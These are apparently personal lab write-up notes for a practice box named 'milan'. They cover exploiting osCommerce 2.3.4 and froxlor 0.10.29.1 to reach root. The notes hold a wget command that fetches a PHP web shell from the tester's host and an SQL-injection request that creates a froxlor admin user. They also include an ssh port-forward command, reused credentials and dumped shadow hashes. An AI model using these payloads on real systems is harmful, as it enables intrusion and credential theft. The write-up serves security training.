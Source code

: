 ### ++ Approach ++
#### Credentials
	* flybike:Christopher (user in froxlor)

#### Services
	##### 60001 HTTP
		In /docs we find release_notes.pdf file where we found webapp oscommerce version 2.3.4

### ++ Vulnerabilities ++

#### Vuln 1: RCE in oscommerce 2.3.4 ++
	* https://www.exploit-db.com/exploits/50128
	* We abuse RCE and place a php shell by using a python server:
		Cmd: "wget http://192.168.45.245/p0wny.php -O ../../p0wny.php"
		Shell: http://milan:60001/catalog/p0wny.php

#### Vuln 2: RCE in froxlor 0.10.29.1 ++
	* https://www.exploit-db.com/exploits/50502
	* With the following request we create an admin user:
		POST /customer_mysql.php?s=84e97a8c8fa9eafb092871223091f2bb HTTP/1.1
		[...SNIP...]

		s=84e97a8c8fa9eafb092871223091f2bb&page=mysqls&action=add&send=send&custom_suffix=`%3binsert+into+panel_admins+(loginname,password,customers_see_all,domains_see_all,caneditphpsettings,change_serversettings)+values+('testing','$5$gqlmiUswzVgtRBwk$JV0RLv89CvFgXPXN4F78dUFjjicf9DfQW8jnrxrQko2',1,1,1,1)%3b--&description=testing&mysql_password=Christopher&mysql_password_suggestion=sarah&sendinfomail=0&sendinfomail=1

### ++ System Interaction ++
#### Foothold  
	* Abusing vuln 1 we got a shell as www-data

#### Privilege Escalation 
	* In /var/www/html/oscommerce/catalog/admin/includes/configure.php we found credentials for mysql db. With oscuser we just found a non-crackable admin hash but connecting with the same password as root, we found froxlor db with hashes in panel_customers table.
		Sarah: flybike:Christopher
	* We discover an open port in 60002 but we cannot access from outside, so we use port redirect from the server with "ssh -R *:60002:localhost:60002 kali@192.168.45.245" (before we have to enable ssh in kali "sudo systemctl start ssh")
	* In localhost:60002 we find froxlor and we can access with flybike:Christopher
	* In directory /var/www/html/froxlor/install/updates/froxlor we can find that we have 0.10 version and we found it vulnerable to this exploit (https://www.exploit-db.com/exploits/50502)
	* Abuse vuln 2 and get a admin user, move pentestmonkey php rev shell and execute it to get a shell as root (cron job runs every 5 minute, so don't get too impatient)
	
#### Post-exploitation 
	* Shadow:
		root:$6$fQhB2Lj5yLbIFMSE$IXOjFCsy7zQl.PcNb9F5B527z.Qb4nXAkZOtf/Lm5hK8Cl9X3N.KyCKrY644a0BxuO9nyz5sYp.zK7lNXSrWR.:19311:0:99999:7:::
		milan:$6$sqRyl.eR3VZqWZ1e$dD200Fsn.cM.V7TJQoq4tXn5f/jZueq0Eo1K039Gf.2nOpd2onj5qTnDJMCkaYI41gSZlgpTIoqBsmYIiZ56o/:19314:0:99999:7:::
		sarah:$6$RMeF2hBdLzb9q2Ce$fZauxqw7uNC0RHBO8DrgCH8Onke7gCQJ4jiNU4.f2RJTWhqqQwafo/xzxAboPmCEF//Irxhk/vWZ274LbXhZZ0:19314:0:99999:7:::
